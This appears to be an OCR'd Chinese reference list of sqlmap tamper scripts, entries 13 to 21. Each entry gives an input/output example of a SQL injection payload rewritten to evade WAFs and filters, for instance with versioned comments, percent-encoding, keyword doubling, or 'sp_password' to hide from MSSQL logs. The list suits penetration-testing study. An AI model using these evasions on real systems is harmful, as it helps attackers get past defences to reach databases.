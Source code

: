 (13) modsecurityversioned.py 条件注释 
Example: 
* Input: 1 AND 2>1-- 
* Output: 1 /*!30000AND 2>1*/-- 
Requirement: 
* MySQL 

(14) modsecurityzeroversioned.py 条件注释，0000 
Example: 
* Input: 1 AND 2>1-- 
* Output: 1 /*!00000AND 2>1*/-- 
Requirement: 
* MySQL 

(15) multiplespaces.py 添加多个空格 
Example: 
* Input: UNION SELECT 
* Output:  UNION   SELECT 

(16) nonrecursivereplacement.py 可以绕过对关键字删除的防注入（这个我也不知道怎么说好，看例子。。。） 
Example: 
* Input: 1 UNION SELECT 2-- 
* Output: 1 UNUNIONION SELSELECTECT 2-- 

(17) percentage.py 在每个字符前添加百分号（%） 
Example: 
* Input: SELECT FIELD FROM TABLE 
* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E 
Requirement: 
* ASP 

(18) randomcase.py 随即大小写 
Example: 
* Input: INSERT 
* Output: InsERt 

(19) randomcomments.py 随机插入区块注释 
Example: 
'INSERT' becomes 'IN/**/S/**/ERT' 
securesphere.py 语句结尾添加”真”字符串 
Example: 
* Input: AND 1=1 
* Output: AND 1=1 and '0having'='0having' 

(20) sp_password.py 语句结尾添加”sp_password”迷惑数据库日志（很。。。） 
Example: www.2cto.com 
* Input: 1 AND 9227=9227-- 
* Output: 1 AND 9227=9227--sp_password 
Requirement: 
* MSSQL 

(21) space2comment.py 以区块注释替换空格 
Example: 
* Input: SELECT id FROM users 
* Output: SELECT/**/id/**/FROM/**/users 
